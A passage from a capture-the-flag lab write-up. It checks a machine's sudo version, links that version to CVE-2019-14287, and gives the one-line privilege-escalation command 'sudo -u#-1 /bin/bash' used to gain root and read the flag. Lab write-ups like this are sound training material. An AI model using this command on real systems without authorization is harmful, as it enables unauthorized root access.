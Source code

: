 Then we detected the sudo version using `sudo -V` command:

![sudo -V](./Screenshots/sudo%20-V.png)

The sudo version is `1.8.21p2`.

<br>

# Task 11: CVE number for the escalation 

After figuring out the sudo version, we tried to search for a known CVE related to it or any vulnerability and we found that the `1.8.21p2` sudo version is vulnerable and has the following CVE number: `CVE-2019-14287`.

To exploit the vulnerability and escalate our privileges to ROOT, we used the following command:

```console
$ sudo -u#-1 /bin/bash
```

![sudo -V](./Screenshots/root%20priv-esc.png)

And finally, we ROOTed the machine!

<br>

# Task 12: What is the root flag?

To read the root flag, we just traversed to the `/root` directory and then read the root.txt, that's it!

![ls /root](./Screenshots/ls%20root.png)

![root.txt file](./Screenshots/root.txt.png)
